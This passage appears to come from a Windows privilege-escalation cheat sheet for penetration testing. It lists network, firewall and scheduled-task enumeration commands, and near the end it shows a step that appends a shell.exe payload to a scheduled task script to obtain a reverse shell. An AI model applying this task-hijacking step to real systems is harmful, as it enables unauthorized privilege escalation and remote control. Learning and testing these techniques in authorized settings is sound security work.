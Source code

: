 ```powershell
ipconfig /all
```

#### Networking routing tables

```powershell
route print
```

#### Active network connections

```powershell
netstat -ano
```

### Firewall Status and Rules

> For example, if a network service is not remotely accessible because it is blocked by the firewall, it is generally accessible locally via the loopback interface. If we can interact with these services locally, we may be able to exploit them to escalate our privileges on the local system. In addition, we can gather information about inbound and outbound port filtering during this phase to facilitate port forwarding and tunneling when it's time to pivot to an internal network.

#### Firewall profile

```powershell
netsh advfirewall show currentprofile
```

#### Firewall rules

```powershell
netsh advfirewall firewall show rule name=all
```

### Scheduled Tasks

List all scheduled tasks

```powershell
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike “\Microsoft*”} | ft TaskName,TaskPath,State
```

> Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

```
Let’s append shell.exe to this script to get back reverse shell on machine
```

```powershell
echo C:\Cas\shell.exe >> C:\<path-scheduled-tasks>
```

### Installed Applications and Patch Levels
